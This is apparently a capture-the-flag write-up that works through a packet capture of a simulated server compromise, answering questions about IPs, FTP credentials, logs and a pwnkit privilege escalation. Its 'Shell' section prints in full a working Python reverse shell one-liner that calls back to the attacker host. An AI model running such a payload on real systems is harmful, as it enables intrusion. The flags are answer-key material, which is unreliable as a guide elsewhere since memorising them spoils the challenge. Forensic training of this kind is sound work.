

# Networking

## Victim & Attacker

### Context
> NSTechvally is an multinational hosting & cloud service providing company. Recently we have detected some unusal activity to the server. An attacker got access to our server. And we recently found out that the developer did some mistakes developing our website. We have captured the network traffic. Help us to find out how the attacker compromised our server.  
> 
> **N.B: This is the challenge file for all the networking challenges.**  
> 
> Attachments : 
>  - [capture.pcapng](capture.pcapng)
>  
> What is the server ip & the attacker ip?  
> Flag Format: BDSEC{0.0.0.0_127.0.0.1}
> 
> **Author : TareqAhamed**

### Resolving


In the wireshark conversation module, we can see that the biggest exchanges are between 192.168.1.10 and 192.168.1.13.

We notice that the 192.168.1.10 is present on a very large number of conversations. We deduce that it is the attacker.

**Server** = 192.168.1.13  
**Attacker** = 192.168.1.10

The Flag is : `BDSEC{192.168.1.13_192.168.1.10}`

## Which FTP?

### Context
>What ftp & version the server is using?
>
>Flag Format : BDSEC{ftp_0.0.0}
>
>**Author : marufmurtuza**

### Resolving


Following the tcp stream we find the FTP version : vsFTPd 3.0.3

The Flag is : `BDSEC{vsFTPd_3.0.3}`

## FTP Creads

### Context
>What is the ftp username & password?
>
>Flag Format : BDSEC{username_password}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we find the user and password : 

USER = **ftpadmin**  
PASS = **ftpadmin**  

Message : **Login successful**

The Flag is : `BDSEC{ftpadmin_ftpadmin}`

## Uploaded File

### Context

>What file did the attacker uploaded to the ftp server? [with location]
>
>Flag Format : BDSEC{/location/file_name}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we see that the attacker is placed in the 'files' folder.

```CWD files```

Note that there is the .hacker.note file

The Flag is : `BDSEC{/files/.hacker.note}`

## Log File

### Context

>What is the log file name?
>
>Flag Format : BDSEC{something.log}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we see that the attacker used the command :

```cd /var/log``` and ```ls```

There is a lot of log file. The one that interests us is called vsftpd.log because this is the ftp log file.

The Flag is : `BDSEC{vsftpd.log}`

## Project Incharge

### Context

>Who was the incharge of the website project?
>
>Flag Format : BDSEC{name}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we can see an email where Tony announces to mark that he is going to work on a project with John.
"Guide gim through the project" indicates that Mark is in charge of this project.

The Flag is : `BDSEC{Mark}`

## Loooong Loooong

### Context

>Can you ananlyze the log file & split out the date time of first successful login?
>
>Flag Format : BDSEC{day_month_date_ti:m:e}   
>Example Flag : BDSEC{Sun_May_16_15:38:13}
>
>**Author : TareqAhamed**

### Resolving


The attacker tried to brute-force the administrator’s password to connect to the ftp server.
There are a lot of failed connection lines but for pid 8631 we can see the message "OK LOGIN"

The associated date is : ```Thu Jul 14 10:16:59 2022```

The Flag is : `BDSEC{Thu_Jul_14_10:16:59}`

## Administrator

### Context

>What is the admin panel username & password?
>
>Flag Format : BDSEC{username_password}
>
>**Author : TareqAhamed**

### Resolving



We see that the user went to the identification page  /template/site/admin_panel/login.php and entered :
- username = **demo** 
- password = **demo**

The Flag is : `BDSEC{demo_demo}`

## Shell

### Context

>What reverse shell payload did the attacker used to gain a reverse shell?
>
>Flag Format : BDSEC{payload in plain text}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we can see that the script is in the url : 
```
python+-c+%27import+socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.10%22%2C9001%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B+os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport+pty%3B+pty.spawn%28%22sh%22%29%27
```
This is a script in url format.

To decode this script, we can use [cyberchef](https://gchq.github.io/CyberChef/#recipe=URL_Decode()&input=cHl0aG9uKy1jKyUyN2ltcG9ydCtzb2NrZXQlMkNzdWJwcm9jZXNzJTJDb3MlM0JzJTNEc29ja2V0LnNvY2tldCUyOHNvY2tldC5BRl9JTkVUJTJDc29ja2V0LlNPQ0tfU1RSRUFNJTI5JTNCcy5jb25uZWN0JTI4JTI4JTIyMTkyLjE2OC4xLjEwJTIyJTJDOTAwMSUyOSUyOSUzQm9zLmR1cDIlMjhzLmZpbGVubyUyOCUyOSUyQzAlMjklM0Irb3MuZHVwMiUyOHMuZmlsZW5vJTI4JTI5JTJDMSUyOSUzQm9zLmR1cDIlMjhzLmZpbGVubyUyOCUyOSUyQzIlMjklM0JpbXBvcnQrcHR5JTNCK3B0eS5zcGF3biUyOCUyMnNoJTIyJTI5JTI3)

We obtain : **python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'**

The Flag is : `BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`

## Secret Key

### Context

>What is the secret key?
>
>Flag Format : BDSEC{secretKey}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we see that the attacker used the command :

- ```show tables``` -> Tables_in_secret : S3cRT_K3y
- ```select * from s3cR3T_K3y``` -> secretkey : 2jo3t12nv51w1pw4wk1kj58s1jb6w0

The Flag is : `BDSEC{2jo3t12nv51w1pw4wk1kj58s1jb6w0}`

## Database Admin

### Context

>What is the database username & password?
>
>Flag Format : BDSEC{username_password}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we see that the attacker used the command :

- ```mysql -u root -p``` 
- And used the password "root"

The Flag is : `BDSEC{root_root}`

## Hostname

### Context

>What is the hostname of the server?
>
>Flag Format : BDSEC{hostname}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we see that the FTP Account contains ftpadmin@nstech.com.

We deduce that the hostname is **ftpadmin**.

The Flag is : `BDSEC{ftpadmin}`

## CodeName

### Context

>What is the codename the server?
>
>Flag Format : BDSEC{Codname}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we see that the attacker used the command :

```cat /etc/os-realease```

Something catches our eye : UBUNTU_CODENAME=xenial  

The Flag is : `BDSEC{xenial}`

## Server Info

### Context

>What server & version the server is using? (main os)
>
>Flag Format : BDSEC{servername_version_something_something}   
>Example Flag : BDSEC{CentOS_2022.2_LTS_GNU_Linux}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we see that the attacker used the command :

```cat /etc/os-realease```

Two elements are important :

- VERSION="**16.04.1 LTS (Xenial Xerus)**"
- PRETTY_NAME="**Ubuntu 16.04.1 LTS**"

The Flag is : `BDSEC{Ubuntu_16.04.1_LTS_Xenial_Xerus}`

## Service Exploit

### Context

>Which service package did the attacker used to gain root access of the server?
>
>Flag Format : BDSEC{package_name}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we see that the attacker used the command :

```cd CVE-2021-4034```

By searching the CVE-2021-4034 on the internet we come across the following page :


The service used is **polkit**.

The Flag is : `BDSEC{polkit}`

## Exploit Exploit

### Context

>Which exploit did the attacker used to gain root access of the server?
>
>Flag Format : BDSEC{exploit_name}
>
>**Author : marufmurtuza**

### Resolving


The name of this exploit is **pwnkit**.

The Flag is : `BDSEC{pwnkit}`

## Vulnérable Service

### Context

>Which utility is vulnerable to pwnkit?
>
>Flag Format : BDSEC{utility_name}
>
>**Author : TareqAhamed**

### Resolving


The name of this vulnerable service is **pkexec**.

The Flag is : `BDSEC{pkexec}`

## msg.txt

### Context

>What is the content of msg.txt?
>
>Flag Format : BDSEC{content_of_the_msg_file}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we see that the attacker used the command :

```cat msg.txt```

The message is : **"The Server Is Now under My Control :D :D**

The Flag is : `BDSEC{The_Server_Is_Now_under_My_Control_:D_:D}`

## Attacker

### Context 

>What is the attacker name?
>
>Flag Format : BDSEC{attacker}
>
>**Author : TareqAhamed**

### Resolving


Following the tcp stream we can see a note signed by N4N0M473.

The Flag is : `BDSEC{N4N0M473}`

## Server User's

### Context

>How many user's home directory were listed in the server?
>
>Flag Format : BDSEC{0}
>
>**Author : TareqAhamed**

### Resolving


Focus on the command line : ```cd /home``` + ```ls```

- There are 8 users on this server :
  - asif
  - ftpadmin
  - mahmud
  - marufmurtuza
  - rifat
  - s0m30n3
  - siam
  - tareqahamed
  
The Flag is : `BDSEC{8}`
